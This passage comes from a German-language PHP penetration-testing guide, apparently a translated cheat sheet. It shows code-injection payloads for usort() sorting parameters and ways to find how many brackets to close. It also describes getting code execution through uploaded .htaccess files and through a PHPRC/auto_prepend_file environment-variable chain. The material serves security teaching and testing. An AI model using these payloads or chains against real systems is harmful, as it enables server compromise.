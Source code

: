 **Andere Option** (wenn du den internen Code hast) ist, eine Variable zu ändern, um die Ausführung zu verändern: `$file = "hola"`

### **RCE über usort()**

Diese Funktion wird verwendet, um ein Array von Elementen mit einer bestimmten Funktion zu sortieren.\
Um diese Funktion auszunutzen:
```php
<?php usort(VALUE, "cmp"); #Being cmp a valid function ?>
VALUE: );phpinfo();#

<?php usort();phpinfo();#, "cmp"); #Being cmp a valid function ?>
```

```php
<?php
function foo($x,$y){
usort(VALUE, "cmp");
}?>
VALUE: );}[PHP CODE];#

<?php
function foo($x,$y){
usort();}phpinfo;#, "cmp");
}?>
```
You can also use **//** um den Rest des Codes zu kommentieren.

Um die Anzahl der Klammern zu entdecken, die Sie schließen müssen:

* `?order=id;}//`: wir erhalten eine Fehlermeldung (`Parse error: syntax error, unexpected ';'`). Wahrscheinlich fehlen uns eine oder mehrere Klammern.
* `?order=id);}//`: wir erhalten eine **Warnung**. Das scheint richtig zu sein.
* `?order=id));}//`: wir erhalten eine Fehlermeldung (`Parse error: syntax error, unexpected ')' i`). Wahrscheinlich haben wir zu viele schließende Klammern.

### **RCE über .httaccess**

Wenn Sie eine **.htaccess** **hochladen** können, dann können Sie mehrere Dinge **konfigurieren** und sogar Code ausführen (indem Sie konfigurieren, dass Dateien mit der Erweiterung .htaccess **ausgeführt** werden können).

Verschiedene .htaccess-Shells finden Sie [hier](https://github.com/wireghoul/htshells)

### RCE über Env-Variablen

Wenn Sie eine Schwachstelle finden, die es Ihnen ermöglicht, **Umgebungsvariablen in PHP zu ändern** (und eine andere, um Dateien hochzuladen, obwohl dies mit mehr Forschung möglicherweise umgangen werden kann), könnten Sie dieses Verhalten ausnutzen, um **RCE** zu erhalten.

* [**`LD_PRELOAD`**](../../../linux-hardening/privilege-escalation/#ld_preload-and-ld_library_path): Diese Umgebungsvariable ermöglicht es Ihnen, beliebige Bibliotheken beim Ausführen anderer Binärdateien zu laden (obwohl es in diesem Fall möglicherweise nicht funktioniert).
* **`PHPRC`** : Weist PHP an, **wo es seine Konfigurationsdatei finden kann**, die normalerweise `php.ini` heißt. Wenn Sie Ihre eigene Konfigurationsdatei hochladen können, verwenden Sie `PHPRC`, um PHP darauf zu verweisen. Fügen Sie einen **`auto_prepend_file`**-Eintrag hinzu, der eine zweite hochgeladene Datei angibt. Diese zweite Datei enthält normalen **PHP-Code, der dann** von der PHP-Laufzeitumgebung vor jedem anderen Code ausgeführt wird.
1. Laden Sie eine PHP-Datei mit unserem Shellcode hoch
2. Laden Sie eine zweite Datei hoch, die eine **`auto_prepend_file`**-Direktive enthält, die den PHP-Präprozessor anweist, die Datei aus Schritt 1 auszuführen
3. Setzen Sie die `PHPRC`-Variable auf die Datei, die wir in Schritt 2 hochgeladen haben.
* Erhalten Sie weitere Informationen, wie Sie diese Kette [**aus dem ursprünglichen Bericht**](https://labs.watchtowr.com/cve-2023-36844-and-friends-rce-in-juniper-firewalls/) ausführen können.
* **PHPRC** - eine weitere Option
